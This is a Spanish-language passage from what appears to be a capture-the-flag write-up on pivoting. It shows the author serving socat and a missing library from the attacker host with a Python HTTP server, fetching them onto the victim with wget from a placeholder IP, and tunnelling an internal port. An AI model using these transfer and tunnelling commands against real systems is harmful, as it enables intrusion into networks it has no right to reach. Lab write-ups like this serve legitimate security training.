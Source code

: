 Veremos un puerto interesante que esta en local que seria el `5000` vamos a pasarnos dicho puerto realizando un `portforwarding` a nuestro `host` pero como no tendremos el binario `socat` en la maquina victima, vamos a pasarnos el binario a la maquina victima de la siguiente forma:

```shell
cp /usr/bin/socat .
python3 -m http.server
```

Ahora en la maquina victima nos lo descargaremos:

```shell
cd /tmp
wget http://<IP>:8000/socat
chmod +x socat
```

Una vez echo esto vamos a utilizar dicho `binario` para realizar la tunelizacion del puerto:

```shell
./socat TCP-LISTEN:7755,fork TCP:127.0.0.1:5000
```

Info:

```
./socat: error while loading shared libraries: libwrap.so.0: cannot open shared object file: No such file or directory
```

Veremos que nos falta una libreria, por lo que tambien nos la vamos a importar a la maquina victima de la siguiente forma.

> HOST

```shell
find / -name "libwrap.so.0" 2>/dev/null
```

Info:

```
/usr/lib/x86_64-linux-gnu/libwrap.so.0
```

Vamos a compiar dicho archivo a nuestra carpeta actual:

```shell
cp /usr/lib/x86_64-linux-gnu/libwrap.so.0 .
```

Echo esto vamos a volvernos abrir un servidor de `python3` para pasarnos el archivo.

```shell
python3 -m http.server
```

> VICTIM

```shell
wget http://<IP>:8000/libwrap.so.0
```
